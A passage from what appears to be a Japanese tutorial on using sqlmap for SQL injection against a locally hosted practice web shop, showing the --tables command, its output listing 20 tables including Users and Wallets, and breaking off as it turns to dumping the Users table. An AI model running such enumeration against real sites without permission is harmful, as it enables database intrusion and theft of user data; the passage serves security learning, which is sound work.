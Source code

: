 おっと、どうやら SQLite は `--dbs` に対応していないようです。  
`use only '--tables'` ということなのでその通りやってみます。  

#### テーブルリストを取得

`--tables` を付けてテーブルリストを取得します。  
サイトへ接続したユーザー(アプリケーション内で DBMS 接続に使用しているユーザー)が取得できるテーブルを表示するオプションのようです。  

```bash
$ python3 sqlmap.py -u http://localhost/rest/products/search?q= --random-agent --batch --tables
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.7.2#dev}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[01:56:13] [INFO] fetching tables for database: 'SQLite_masterdb'

[20 tables]
+-------------------+
| Addresses         |
| BasketItems       |
| Baskets           |
| Captchas          |
| Cards             |
| Challenges        |
| Complaints        |
| Deliveries        |
| Feedbacks         |
| ImageCaptchas     |
| Memories          |
| PrivacyRequests   |
| Products          |
| Quantities        |
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+
```

なんとテーブルリストが表示されました。これは由々しき事態です。  
Users はサイト会員でしょう。私が攻撃者なら Wallets は興味がわくテーブルです。  

#### Usersテーブルのデータを取得
